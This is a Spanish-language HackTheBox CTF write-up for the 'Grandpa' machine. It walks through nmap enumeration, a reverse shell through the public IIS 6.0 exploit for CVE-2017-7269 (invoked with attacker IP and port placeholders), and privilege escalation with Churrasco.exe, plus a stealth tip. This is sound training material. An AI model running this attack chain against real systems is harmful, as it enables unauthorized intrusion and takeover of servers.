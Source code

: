 ```yaml
---
published: true
title: HackTheBox - Grandpa [WriteUp]
date: '2021-11-04'
category: HackTheBox
description: WriteUp de la Máquina Grandpa de HackTheBox (Extrapolable a la máquina Granny)
---
```


![image-center](/assets/images/Grandpa_HTB/info.PNG)

## Reconocimiento inicial
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```

![image-center](/assets/images/Grandpa_HTB/nmap-ports.PNG)

Obteniendo como resultado que el puerto 80 de la máquina está abierto. Luego procederemos a escanear las versiones y scripts con nmap a este puerto para recopilar más información aún.

![image-center](/assets/images/Grandpa_HTB/nmap-version.PNG)

Encontrando que el servidor web ejecuta un IIS 6.0 el cual es vulnerable a varios CVE.
Ingresando a la página en cuestión y utilizando Wappalyzer para buscar más información, no encontramos mucho más de lo que ya encontramos con el escaneo de versiones.

![image-center](/assets/images/Grandpa_HTB/web-inicial.PNG)

Por lo que procederemos a buscar algún CVE que nos sea de utilidad para conseguir una reverse shell.

## Reverse Shell

Después de un rato buscando se llegó al [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) el cual permite realizar una Reverse Shell a nuestro equipo de atacante.

![image-center](/assets/images/Grandpa_HTB/exploit-CVE-2017-7269.PNG)

Para ello clonamos el repositorio en nuestro directorio de trabajo, nos metemos en el directorio y ejecutamos la vulnerabilidad de la siguiente forma

```bash
python <nombre_exploit> <ip_target> <port_target> <ip_nuestra> <port_nuestro>
```

![image-center](/assets/images/Grandpa_HTB/revshell.PNG)

## Escalación de privilegios

Una vez dentro se intentó ir al directorio Harry quien posiblemente contenga la user-flag, sin embargo, no se pudo acceder.

![image-center](/assets/images/Grandpa_HTB/access-denied.PNG)

por lo que se procedio a ver que privilegios existen dentro de la máquina, encontrando que el SeImpersonatePrivilege está habilitado.

![image-center](/assets/images/Grandpa_HTB/whoami-priv.PNG)

Cuando este privilegio esta activado podemos ejecutar una herramienta para escalar privilegios que se llama JuicyPotato, sin embargo, la versión del Windows que estamos trabajando es Windows Server 2003.
Lo cual nos impide ejecutar el JuicyPotato por compatibilidad de las versiones. Para estos casos es que existe una herramienta similar llamada Churrasco.exe.

![image-center](/assets/images/Grandpa_HTB/churrasco.PNG)

Esta herramienta la podemos descargar desde [https://github.com/Re4son/Churrasco/raw/master/churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe), luego es necesario compartirla a la máquina objetivo.
Para ello se utilizó impacket con smb-server

![image-center](/assets/images/Grandpa_HTB/smb-traspaso.PNG)

Por temas de sigilo es recomendable, en general, trabajar en la carpeta temporal de las máquinas objetivos ya que suelen tener más permisos en general o suelen borrar la data que contienen al apagarse.

![image-center](/assets/images/Grandpa_HTB/transferencia-success.PNG)

## Flags

Una vez realizado lo anterior ya podemos ejecutar el binario, esto lo podemos hacer ejecutando el binario, agregando la flag "-d" y entre comillas indicando el comando a ejecutar.

![image-center](/assets/images/Grandpa_HTB/churrasco-ejecucion.PNG)

Con esto podríamos obtener una reverse shell como root a nuestra maquina subiendo un binario de Netcat, sin embargo, yo prefiero ir directamente por las banderas ya que podemos intuir donde están, ya que esto es un CTF.

### user.txt

![image-center](/assets/images/Grandpa_HTB/user-flag.PNG)

### root.txt

![image-center](/assets/images/Grandpa_HTB/root-flag.PNG)
